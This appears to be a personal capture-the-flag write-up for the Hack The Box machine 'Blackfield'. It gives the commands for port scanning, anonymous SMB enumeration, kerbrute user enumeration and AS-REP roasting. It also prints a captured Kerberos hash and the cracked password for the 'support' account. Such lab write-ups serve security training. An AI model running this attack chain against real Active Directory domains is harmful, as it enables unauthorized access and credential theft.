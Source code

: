 ##### nmap

Service scan
```bash
sudo nmap -sC -sV 10.10.10.192 -oA nmap -v
```
![[Pasted image 20241009181323.png]]
![[Pasted image 20241009181357.png]]


All port scan
```bash
nmap -sV -p- -v 10.10.10.192 -oA nmap2
```
![[Pasted image 20241009181413.png]]
![[Pasted image 20241009183032.png]]
##### manual

```bash
smbclient -N -L \\10.10.10.192
```
![[Pasted image 20241009181714.png]]

Under `profiles$`, found a list of folders that are potentially users within the system. 
```bash
smb> prompt OFF
smb> recurse ON
smb> mget *
```

Downloaded all folders
```bash
ls . | head -n 500
```
Listed all folder names in a single long list which i saved in `user.txt`

- enum4linux didn't give anything

Using kerbrute, found valid users from a list of usernames
```bash
./kerbrute_linux_amd64 userenum --dc 10.10.10.192 -d BLACKFIELD.local /home/kali/Desktop/HTB/blackfield/user.txt
```
![[Pasted image 20241009192544.png]]

Fund a TGT for user `support`
```bash
impacket-GetNPUsers BLACKFIELD.local/support -dc-ip 10.10.10.192 -no-pass
```
```
$krb5asrep$23$support@BLACKFIELD.LOCAL:d5745f83a94e5e6600814b2e87f41649$80b7939a5c850d3f4a4345a7d1cb2bf2deb75cbda4a933296080e4d07d054d74ffe2dc387a5f35efd705e524e10c4b58ae383693672f8ce97b865f0c52dec34933a6f74b4607da869cb00d161d1a3fdc75e51d01ee2d809e1e22a720c4bc30d48b268b9454c59c89261bcfdb527e1dd973c590cac04f6c4af88ceba2cc9ef1c627fca823009767e2b0cb012d0d3df512f91b68f2e8cb6df91b0a3d8118fef1dedc3cc5a1554b882174f1f688f7808d266ad37e8b6042fc87598ad122d206c6d3584ed96f4aae606f1dd5a0470ecb255e47c9c1fd7acbaaf87db9e07e4b7162d0fe33eb1b641fa072a0b2d0faa473cabdf9a9703c
```

Cracking Kerberos hash
```bash
hashcat support.hash /usr/share/wordlists/rockyou.txt
```
Successfully cracked the password

`support:#00^BlackKnight`

